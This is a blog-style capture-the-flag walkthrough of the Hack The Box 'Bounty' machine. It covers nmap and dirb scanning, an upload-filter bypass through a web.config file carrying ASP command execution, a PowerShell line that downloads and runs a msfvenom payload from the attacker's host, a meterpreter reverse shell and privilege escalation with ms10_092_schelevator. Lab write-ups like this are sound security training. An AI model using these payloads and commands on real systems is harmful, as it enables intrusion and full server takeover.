 ```yaml
---
slug: bounty-writeup/
title: Bounty Writeup
date: 2018-10-29
category: attacks
subtitle: How to resolve HTB Bounty
tags: cybersecurity, htb, pwn, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/cover_plk66f.webp
alt: Hand holding a pirate toy
description: In this article, we present how to exploit a Bounty machine's vulnerabilities and how to gain access as an Administrator and obtain the root flag.
keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty, Vulnerabilities, Hacker, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: Be formless, shapeless like water, Bruce Lee
source: https://unsplash.com/photos/NctO2nqkWCY
---
```


## Scanning Phase

First, we check the IP of the
[Bounty](https://www.hackthebox.eu/home/machines/profile/142) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/bounty-ip_gqy6uf.webp)

</div>

**ping.**

``` bash
host$ ping -c2 10.10.10.93
```

<div class="imgblock">

![ping](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/ping\_trcnb5.webp)

</div>

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

``` bash
host$ nmap 10.10.10.93
```

And, we see that there is only one port open `port 80`.

<div class="imgblock">

![nmap](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/nmap_earkie.webp)

</div>

Then, we try to access `port 80` with our browser, and it opens a web
page with an image of Merlin.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/web_fdltrp.webp)

</div>

As we see on this page, there is nothing more than an image, so we’re
going to scan the whole web server with `dirbuster` to see if we can
access something useful.

``` bash
host$ dirb http://10.10.10.91
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/dirb_ozvyui.webp)

</div>

Here we found a folder where uploaded files are stored. We need the page
of the upload functionality. With `dirbuster`, and some options, we can
set different extensions and obtain what we are looking for. Since this
is a `Windows` machine, we are going to use `asp` and `aspx` extensions.

``` bash
host$ dirb http://10.10.10.91 -X .asp,.aspx
```

<div class="imgblock">

![dirb-scan2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/dirb2_kjlopp.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/upload-page_eu4cfl.webp)

</div>

## Getting user

In the last step we got an upload page, but with no further
instructions. There we can try to upload an image and check the result.

<div class="imgblock">

![upload1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

But if we try with a webshell in `aspx` or `asp` it returns an error.

<div class="imgblock">

![upload2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/upload2_dgzfkc.webp)

</div>

The web server has a filter that possibly checks the extension of the
uploaded file. If you try with double extension it won’t work either.

So what can we do? In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`. We already tried the `asp` and `aspx`
extensions, what happens if we upload a `web.config` file?

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

<div class="imgblock">

![upload11](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

We can see the result is positive. The `web.config` file is used by
`IIS` servers to store settings that come with the installation of the
`API`.

With this, we can start to exploit this machine. There is a
vulnerability on the `web.config` file processing that could allow an
attacker to execute code remotely, by injecting `asp` code in the file
(More information can be found
[here](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
).

So, in order to have remote code execution (`RCE`), we need to add the
following lines to our `web.config` file:

``` text
  <!--
  <%
  Response.write("-"&"->")
  Response.write("</p><pre>")
  Set wShell1 = CreateObject("WScript.Shell")
  Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
  output1 = cmd1.StdOut.Readall()
  set cmd1 = nothing: Set wShell1 = nothing
  Response.write(output1)
  Response.write("</pre><p><!-"&"-")
  %>
  -->
```

Then, we upload it, and access the file via the web, as before.

<div class="imgblock">

![rce-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/rce-ok_ae3o75.webp)

</div>

**Eureka\!** With this, we can have our user flag, but we want an active
shell that we can use for further enumeration. For this, we can use
`msfvenom`. This is a tool that creates payloads in order to gain access
to a machine. It is installed by default on `Kali`; it also comes with
the installation of `Metasploit`. Then, we upload our file to the server
with our `RCE` and start a web server on our side to download our
exploit.

First, the exploit with msfvenom:

``` bash
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
```

This will create a malicious file. When executed on the server it will
give us a reverse shell with our `RCE` file using `meterpreter`. This is
an advanced, dynamically extensible payload that uses in-memory `DLL`
injection stagers, and is extended over the network at runtime.

Then we need to start a web server in our machine. We can do it with
`Python` by running:

``` bash
host$ python -m SimpleHTTPServer 7000
```

To make the server download our file, we can use the next `PowerShell`
command in our `web.config` file replacing the `whoami` one:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
```

Upload it, and then open it on a private tab. Now, we can see that the
server downloaded our file.

<div class="imgblock">

![download](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/download_cxvzgn.webp)

</div>

Then we need to start our listener. We can use `Metasploit` to do it:

``` bash
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
```

With this, we are ready to initiate our reverse shell. In order to do
it, we need to run our exploit on the server with the same `RCE` method
as before, changing the command to the following:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
```

Upload it, open the page of the `web.config` file and we have our
reverse shell.

<div class="imgblock">

![reverse-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330671/blog/bounty-writeup/reverse-shell_v0yoxx.webp)

</div>

## Getting root

With `meterpreter` we can start to enumerate the server.

<div class="imgblock">

![sys-info](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/sys-info_wlfn7g.webp)

</div>

And, we see that the server has an `x64 Architecture`. We are going to
repeat the process (`msfvenom`, `upload`, `handler`, `run`) but now with
the payload:

``` text
windows/x64/meterpreter/reverse_tcp
```

Then, when we have another session opened, we are going to run the next
one:

``` bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

<div class="imgblock">

![exploit-suggester](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/exploit-suggester_cr3q7v.webp)

</div>

Here we got some exploits that we can use to elevate to `Administrator`,
we are going to use the first one with:

``` bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
```

When it finishes, we will have a new session created and with user `NT
Authority\System`.

<div class="imgblock">

![admin](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/admin_bqoqsf.webp)

</div>

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability with the
`web.config` file. We also learned to always check the architecture when
we access a machine as a user, and how to use some of the `meterpreter`
commands.
